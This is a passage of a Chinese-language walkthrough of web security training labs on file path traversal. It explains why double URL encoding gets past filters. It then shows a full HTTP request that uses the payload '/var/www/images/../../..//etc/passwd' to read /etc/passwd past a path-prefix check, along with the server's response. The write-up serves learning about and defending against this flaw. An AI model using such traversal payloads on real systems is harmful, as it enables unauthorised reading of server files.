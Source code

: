 ```plaintext
......
```

为什么二次编码可以生效？

一个参数发送到 WebServer 会自动解码一次，最后传递给 Web 应用，此时仍然有一次编码，去判断此值不存在目录遍历关键字就认为正常，最后交给读取文件的方法去获取内容，此方法在获取文件内容过程中发现文件名存在 URL 编码，则解码去下载，因此造成漏洞。问题就在于不同组件对于 URL 编码的处理方式不同，存在绕过过滤器的可能。

#### Lab: File path traversal, validation of start of path

题意：程序验证要下载的文件参数中的路径。

一打开应用发现图片加载写的绝对路径。

```plaintext
image?filename=/var/www/images/66.jpg
```

直接读 /etc/passwd 提示需要参数。

```plaintext
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'filename'"
```

根据标题来看就是验证了路径。通过给出路径跳跃到根目录解决。

```http
GET /image?filename=/var/www/images/../../..//etc/passwd HTTP/2
Host: 0a4a004003cda7c580f3120c004f003d.web-security-academy.net
Cookie: session=h7rMLeDmvobQYH0gbHJEiJCjsmJt3Kyz
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a4a004003cda7c580f3120c004f003d.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
......
```
